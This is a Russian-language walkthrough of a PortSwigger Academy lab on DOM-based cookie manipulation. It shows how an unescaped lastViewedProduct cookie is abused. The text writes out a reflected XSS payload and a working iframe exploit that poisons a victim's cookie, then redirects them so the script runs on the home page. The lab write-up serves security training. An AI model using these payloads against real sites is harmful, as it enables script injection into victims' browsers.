 Откроем уязвимый ресурс

Откроем рандомную карточку товара, и выйдем из нее

Нажмем `ПКМ` -> `Inspect` -> `Application` -> `Storage` -> `Cookies`

и обратим внимание, что существует куки `lastViewedProduct` у которой даже нет галочки на `HttpOnly`

кхе-кхе, она то нам и нужна
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/5.%20DOM-based%20cookie%20manipulation/pics%20for%20walkthrough/1.png)

да и более того, если зайдем в `Proxy` -> `HTTP history `
увидим, что пераметр `lastViewedProduct` фигурирует в каждом запросе
```
lastViewedProduct=https://0a21008703ae286480b5853c00d300ed.web-security-academy.net/product?productId=1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/5.%20DOM-based%20cookie%20manipulation/pics%20for%20walkthrough/2.png)

Сконфигурируем данный URL
```
https://0a21008703ae286480b5853c00d300ed.web-security-academy.net/product?productId=1&'><script>alert(1)</script>
```

обновим страницу и увидим, что эксплойт отработал


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/5.%20DOM-based%20cookie%20manipulation/pics%20for%20walkthrough/3.png)

Тем временем вот что происходит внутри кода приложения
```
 <a href='https://0a21008703ae286480b5853c00d300ed.web-security-academy.net/product?productId=1&'><script>alert(1)</script>'>Last viewed product</a>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/5.%20DOM-based%20cookie%20manipulation/pics%20for%20walkthrough/4.png)

Перейдем в `Exploit server`

и введем в поле `Body` следующий iframe 
```
<iframe src="https://0a21008703ae286480b5853c00d300ed.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a21008703ae286480b5853c00d300ed.web-security-academy.net';window.x=1;">
```
Когда iframe загружается в первый раз, браузер временно открывает вредоносный URL-адрес, который затем сохраняется как значение файла cookie lastViewedProduct. Обработчик события onload гарантирует, что жертва будет немедленно перенаправлена на домашнюю страницу, даже не подозревая о том, 
что эта манипуляция когда-либо выполнялась. Хотя в браузере жертвы сохранен зараженный файл cookie, загрузка домашней страницы приведет к выполнению полезной нагрузки.
```
https://www.youtube.com/watch?v=nLZbb8_uxTo
```
вот тут классно объяснен payload
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/5.%20DOM-based%20cookie%20manipulation/pics%20for%20walkthrough/5.png)

Нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
